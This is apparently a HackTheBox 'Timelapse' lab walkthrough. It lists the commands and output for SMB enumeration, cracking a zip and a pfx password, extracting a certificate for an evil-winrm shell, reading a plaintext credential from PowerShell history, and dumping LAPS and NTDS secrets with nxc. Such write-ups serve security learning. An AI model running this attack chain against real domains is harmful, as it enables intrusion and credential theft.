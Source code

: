 ```yaml
---
title: HackTheBox-Timelapse
date: 2024-12-24 09:42:00 +/-TTTT
categories: [boxes, red-teaming]
tags: [LAPS]     # TAG names should always be lowercase
image : /assets/images/FOi9TvrXoAUm3zY.jpg
---
```


## SMB-enum

    ➜  timelapse nxc smb 10.10.11.152
    SMB         10.10.11.152    445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:timelapse.htb) (signing:True) (SMBv1:False)


    ➜  timelapse smbclient -L \\DC01
    Password for [WORKGROUP\root]:

            Sharename       Type      Comment
            ---------       ----      -------
            ADMIN$          Disk      Remote Admin
            C$              Disk      Default share
            IPC$            IPC       Remote IPC
            NETLOGON        Disk      Logon server share 
            Shares          Disk      
            SYSVOL          Disk      Logon server share

## crack-zip-file

    ➜  timelapse zip2john winrm_backup.zip > winrm.hash

    ➜  timelapse john winrm.hash --wordlist=/usr/share/wordlists/rockyou.txt 
    Using default input encoding: UTF-8
    Loaded 1 password hash (PKZIP [32/64])
    Will run 6 OpenMP threads
    Press 'q' or Ctrl-C to abort, almost any other key for status
    supremelegacy    (winrm_backup.zip/legacyy_dev_auth.pfx)     
    1g 0:00:00:00 DONE (2024-12-23 12:49) 2.040g/s 7096Kp/s 7096Kc/s 7096KC/s surkerior..supalove
    Use the "--show" option to display all of the cracked passwords reliably
    Session completed. 

## crack-pfx-file

    ➜  timelapse pfx2john legacyy_dev_auth.pfx > legacyy_dev_auth.hash

    ➜  timelapse john legacyy_dev_auth.hash --wordlist=/usr/share/wordlists/rockyou.txt 
    Using default input encoding: UTF-8
    Loaded 1 password hash (pfx, (.pfx, .p12) [PKCS#12 PBE (SHA1/SHA2) 256/256 AVX2 8x])
    Cost 1 (iteration count) is 2000 for all loaded hashes
    Cost 2 (mac-type [1:SHA1 224:SHA224 256:SHA256 384:SHA384 512:SHA512]) is 1 for all loaded hashes
    Will run 6 OpenMP threads
    Press 'q' or Ctrl-C to abort, almost any other key for status
    thuglegacy       (legacyy_dev_auth.pfx)   

## create-cert-and-key

    ➜  timelapse openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out legacyy_dev_auth.key-enc
    Enter Import Password:
    Enter PEM pass phrase:
    Verifying - Enter PEM pass phrase:
    ➜  timelapse openssl rsa -in legacyy_dev_auth.key-enc -out legacyy_dev_auth.key     
    Enter pass phrase for legacyy_dev_auth.key-enc:
    writing RSA key

    ➜  timelapse openssl pkcs12 -in legacyy_dev_auth.pfx -clcerts -nokeys -out legacyy_dev_auth.crt
    Enter Import Password:

### winrm-shell-with-it

    ➜  timelapse evil-winrm -i timelapse.htb -S -k legacyy_dev_auth.key -c legacyy_dev_auth.crt
                                            
    Evil-WinRM shell v3.7
                                            
    Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                            
    Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                            
    Warning: SSL enabled
                                            
    Info: Establishing connection to remote endpoint
    *Evil-WinRM* PS C:\Users\legacyy\Documents> 

file read console-history

    *Evil-WinRM* PS C:\Users\legacyy\AppData\Roaming\Microsoft\Windows\Powershell\PSReadLine> type ConsoleHost_history.txt
    whoami
    ipconfig /all
    netstat -ano |select-string LIST
    $so = New-PSSessionOption -SkipCACheck -SkipCNCheck -SkipRevocationCheck
    $p = ConvertTo-SecureString 'E3R$Q62^12p7PLlC%KWaxuaV' -AsPlainText -Force
    $c = New-Object System.Management.Automation.PSCredential ('svc_deploy', $p)
    invoke-command -computername localhost -credential $c -port 5986 -usessl -
    SessionOption $so -scriptblock {whoami}
    get-aduser -filter * -properties *
    exit

## LAPS

    ➜  timelapse evil-winrm -i timelapse.htb -u 'svc_deploy' -p 'E3R$Q62^12p7PLlC%KWaxuaV' -S 
    *Evil-WinRM* PS C:\Users\svc_deploy\Documents> net users svc_deploy
    User name                    svc_deploy
    Full Name                    svc_deploy
    Comment
    User's comment
    Country/region code          000 (System Default)
    Account active               Yes
    Account expires              Never

    Password last set            10/25/2021 11:12:37 AM
    Password expires             Never
    Password changeable          10/26/2021 11:12:37 AM
    Password required            Yes
    User may change password     Yes

    Workstations allowed         All
    Logon script
    User profile
    Home directory
    Last logon                   10/25/2021 11:25:53 AM

    Logon hours allowed          All

    Local Group Memberships      *Remote Management Use
    Global Group memberships     *LAPS_Readers         *Domain Users
    The command completed successfully.
    
GRAB ADMIN-PASS-in-one command

    ➜  timelapse nxc smb timelapse.htb -u svc_deploy -p 'E3R$Q62^12p7PLlC%KWaxuaV' --laps --ntds
    [!] Dumping the ntds can crash the DC on Windows Server 2019. Use the option --user <user> to dump a specific user safely or the module -M ntdsutil [Y/n] Y
    SMB         10.10.11.152    445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:timelapse.htb) (signing:True) (SMBv1:False)
    SMB         10.10.11.152    445    DC01             [-] DC01\administrator:iobJK3@;Zk.2sgS;Gqf4+or+ STATUS_LOGON_FAILURE


Video Walwalkthrough
[WATCH!](https://youtu.be/A1etiDBywBY)